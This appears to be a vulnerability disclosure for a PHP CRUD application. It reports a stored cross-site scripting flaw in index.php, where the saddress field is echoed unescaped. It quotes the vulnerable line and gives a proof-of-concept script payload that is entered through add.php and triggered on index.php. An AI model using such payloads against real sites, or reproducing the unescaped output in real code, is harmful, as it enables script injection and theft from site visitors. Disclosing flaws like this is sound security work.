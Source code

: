 # Crud Operation System has Based Cross Site Scripting vulnerability in index.php

## supplier 
https://code-projects.org/crud-operation-system-in-php-with-source-code/
## Vulnerability file
index.php and saddress parameter.

## describe
There are unrestricted cross site scripting attacks and injection attacks in the Crud Operation System. The controllable parameters are as follows: saddress. This function will execute the saddress parameter without restriction into the echo statement. Malicious attackers can exploit this vulnerability to obtain sensitive information from clients

**Code analysis**

Querying data from the database and storing it in the $row [] array, and the echo $row ['saddress'] is not filtered, resulting in the execution of XSS statements.

```
                <td><?php echo $row['saddress']; ?></td>
```

![image-20241124165455744](https://github.com/user-attachments/assets/dba3869e-12ef-4953-82f1-630e27657e9f)

## POC

asset add.php

```
http://localhost/crud/add.php
```

insert saddress parameter into database.

```
"/><script>alert(111);</script>
```

![image-20241124170005628](https://github.com/user-attachments/assets/18b4c57d-bd50-4786-bc60-6710b2acf8bd)

Visit this URL to trigger the cross-site scripting vulnerability.

```
http://localhost/crud/index.php
```

**Result**

![image-20241124170033260](https://github.com/user-attachments/assets/3f0e5228-9015-44d4-b185-e4dfffe99fde)

 
